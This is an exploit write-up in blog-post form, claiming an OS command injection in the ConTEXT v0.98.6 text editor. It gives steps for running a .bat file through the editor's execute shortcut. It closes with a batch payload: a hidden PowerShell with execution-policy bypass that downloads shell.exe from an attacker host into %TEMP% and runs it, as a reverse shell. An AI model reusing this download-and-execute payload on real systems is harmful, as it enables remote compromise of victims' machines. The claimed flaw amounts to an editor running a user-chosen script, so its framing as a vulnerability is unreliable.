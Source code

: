 ```yaml
---
layout: post
title: ConTEXT v0.98.6 - OS Command Injection
date: 2023-09-17
category: exploit
---
```


# Exploit Title: ConTEXT v0.98.6 - OS Command Injection
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 17.09.2023
# Vendor Homepage: https://www.contexteditor.org/
# Software Link: https://www.contexteditor.org/ConTEXTv0_986.exe
# Tested Version: v0.98.6 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Open ConTEXT.
2. Create a `.bat` file containing your reverse shell command.
3. In ConTEXT, click on **File** in the top menu, then click **Open** and select your `.bat` file.
4. Press `Ctrl + F12` to execute the `.bat` file.
5. Your reverse shell should now be active, connecting to your listener.

### Example of Reverse Shell Command in .bat

To create a reverse shell in a `.bat` file, use the following example:

```batch
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri http://attacker_ip:port -OutFile %TEMP%\shell.exe; Start-Process %TEMP%\shell.exe"
